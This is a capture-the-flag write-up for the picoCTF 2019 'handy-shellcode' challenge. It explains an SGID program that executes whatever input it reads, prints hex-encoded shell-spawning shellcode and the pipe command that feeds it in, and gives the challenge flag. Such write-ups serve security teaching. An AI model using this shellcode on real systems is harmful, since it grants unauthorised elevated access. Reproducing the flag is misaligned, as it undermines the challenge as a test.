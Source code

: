 # picoCTF 2019 - handy-shellcode
Author: PinkNoize

Binary Exploitation - 50

> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5 on the shell server.

## TL;DR

This challenge consists of a program with SGID privileges that reads in shellcode from the user and executes it. This can be solved by providing shellcode that spawns a shell and reading `flag.txt`.

# Writeup

As the challenge description directs us to `/problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5` the first thing we should do is list that directory.

```bash
user@pico-2019-shell1:~$ ls /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5
flag.txt  vuln  vuln.c
```
There is a file named `vuln`, `vuln.c` and `flag.txt`. Based off the naming scheme, `vuln` is probably a program and `vuln.c` is the source code for it.
As we are looking for flags we should first start by trying to read `flag.txt`.

```bash
user@pico-2019-shell1:~$ cat /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/flag.txt 
cat: /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/flag.txt: Permission denied
```

Uh oh ...  Looks like we don't have access to `flag.txt`, let's check the permissions on everything.

```bash
user@pico-2019-shell1:~$ ls -al /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5
total 732
drwxr-xr-x   2 root       root                4096 Sep 28  2019 .
drwxr-x--x 684 root       root               69632 Oct 10  2019 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28  2019 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28  2019 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you are not familiar with UNIX file permissions, read [this](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

It appears that `flag.txt` is only readable by the user `hacksports` and the group `handy-shellcode_5`. Luckily for us, `vuln` has SGID (Set Group ID) set and anyone can execute it. SGID means that we when we execute `vuln` it will run with group permissions of `handy-shellcode_5` instead of our permissions. This means that if we can trick `vuln` into reading `flag.txt` and outputting it to us, we can get the flag.

Let's learn more about `vuln`.
```bash
user@pico-2019-shell1:~$ file /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/vuln/problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/vuln: setgid ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=7b65fbf1fba331b6b09a6812a338dbb1118e68e9, not stripped
```

From this we see that `vuln` is a 32-bit executable meaning that it is a compiled program. Let's run `vuln` and see what happens.

```bash
user@pico-2019-shell1:~$ /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/vuln
Enter your shellcode:
Hello World!                                           
Hello World!
Thanks! Executing now...
Segmentation fault (core dumped)
```

The program prompts for shellcode and lets the user enter something, in this case "Hello World!"  It then prints whatever the user typed, says thanks and Segfaults.

A segfault is caused when a program tries to access memory which it __does not__ have access to.

Since `vuln.c` is most likely the source code for this program, we can read the code instead of trying to reverse engineer the program.

```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

Let's start understanding this program by skipping the first few lines in `main()`.

```c
  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();
```

This program starts by allocating a buffer of characters, `buf`, of size `BUFSIZE`, then calls `vuln` with buf as its argument, then calls the contents of buf as if it were a function (despite `buf` being an array of characters).

```c
void vuln(char *buf){
  gets(buf);
  puts(buf);
}
```

`vuln()` calls `gets()` which reads user input and places it in `buf`. It then prints the contents of buf with the call to `puts()`.

__WARNING: `gets()` is a dangerous function to use as it will read as much input as the user supplies which could be more than the program has allocated for it. This will cause the program to be vulnerable to a buffer overflow.__ We will not be exploiting this for this challenge as we have a much easier solution.

For more information on `gets` and `puts` type `man gets` and `man puts` in your shell.

As we have control over the contents of `buf` and the program executes the "code" at `buf`, to solve this we can put code that reads `flag.txt` in `buf`. When the program runs it will execute our "code" in `buf` and read the flag to us.

This seems simple enough, but we have to consider what form the "code" has to be in for it to work correctly. We cannot put C code in the buffer as C code doesn't run. C code is compiled to assembly which is then assembled to machine code and packaged nicely in an ELF or PE file (ELF is for *nix systems and PE is for Windows systems). We could write C code that reads `flag.txt`, compile it and extract the machine code from the final executable. This would be difficult as the code we extract would make some assumptions about where some variables should be.

We could write the assembly to read the flag in a way that makes no assumptions about the program state before it runs and avoids bad characters such as 0x0A and 0x00 (these would cause `gets` to stop reading and our full payload wouldn't be used). This would work but it would be time consuming and we would have to modify it for other challenges that have different requirements. A general solution would be to write code that spawns a shell (command line prompt). We can then execute any commands we need to do after easily as we only have to type it. We could also reuse this code for other challenges without any modification.

The greatest advantage from the shell spawning approach is that we don't even have to write it. Code that spawns a shell is known as "shellcode" and there are many versions online that you can copy/paste. My two favorite resources are [exploit-db](https://www.exploit-db.com/shellcodes) and [shell-storm](http://shell-storm.org/shellcode/). The shellcode that will be used in this writeup is [here](https://www.exploit-db.com/shellcodes/13670).

Now that we have shellcode the last step is to deliver it to `vuln`. As the shellcode mostly consists of untypeable text, we will have to use other programs to send it for us. An easy command to use for this is the bash builtin `echo`. All `echo` does is print whatever you put as the argument to `echo`. For example,
```bash
$ echo "Hello World"
Hello World
```
It can also print encoded characters, such as those in our shellcode

```bash
user@pico-2019-shell1:~$ echo -e "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
�
 [1�1�1Ұ
       ̀�����/bin/sh
```

So to deliver the shellcode to the program all we have to do is [pipe](https://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-4.html) the output of `echo` to `vuln`.

```bash
user@pico-2019-shell1:~$ echo -e "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
| /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/vuln
Enter your shellcode:
�
 [1�1�1Ұ
       ̀�����/bin/sh
Thanks! Executing now...
```
NOTE: The above command is on one line

Thr program no longer segfaults but it still doesn't let us read the flag. This is because the shell that we spawn sees that there is no more input and exits as `echo` finished printing everything we told it to. We can solve this by running `cat` after `echo` which lets us take over the input to the shell after `echo` has finished.

```bash
user@pico-2019-shell1:~$ (echo -e "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";cat) | /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/vuln 
Enter your shellcode:
�
 [1�1�1Ұ
       ̀�����/bin/sh
Thanks! Executing now...
id 
uid=19100(user) gid=8874(handy-shellcode_5) groups=8874(handy-shellcode_5),1002(competitors),19101(user)
cat /problems/handy-shellcode_5_d1b3658f284f442eac06607b8ac4d1f5/flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```

After the "Thanks! Executing now..." line, we have access to a shell and can type any commands we want. Upon running `id` we can see that our gid (group ID) is handy-shellcode_5 which means we have access to `flag.txt`. The last thing to do is to `cat` `flag.txt`.